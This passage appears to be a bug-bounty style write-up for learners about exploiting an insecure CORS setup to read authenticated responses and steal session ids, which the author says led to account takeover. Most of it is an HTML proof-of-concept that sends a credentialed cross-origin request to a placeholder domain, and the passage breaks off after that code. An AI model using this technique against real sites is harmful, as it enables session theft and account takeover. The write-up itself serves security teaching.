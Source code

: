 # Insecure CORS (Cross Origin Resource Sharing)


Hey there, learners so today i got a write on insure CORS which is was exploited through the header "Origin:" and i was able to steal the authenticated session id of the users and was able to login into their accounts as it had no HTTPOnly flag so it made my work easy to get cookies through JavaScript. So wont go much with theory lets just jump in :D


So i created a HTML Poc where ill be able to get the sessions id's of the victim, so the code looks like this 

## Source code

```html
<!DOCTYPE html>

<html>

<body>

<center>

<h2>CORS POC Exploit</h2>

<h3>Extract SID</h3>

<div id="demo">

<button type="button" onclick="cors()">Exploit</button>

</div>

<script>

function cors() {

var xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function() {

if (this.readyState == 4 && this.status == 200) {

document.getElementById("demo").innerHTML = alert(this.responseText);

}

};

xhttp.open("POST", "https://example.com", true);

xhttp.withCredentials = true;

xhttp.send();

}

</script>

</body>

</html>
```

that's our POC Script so 
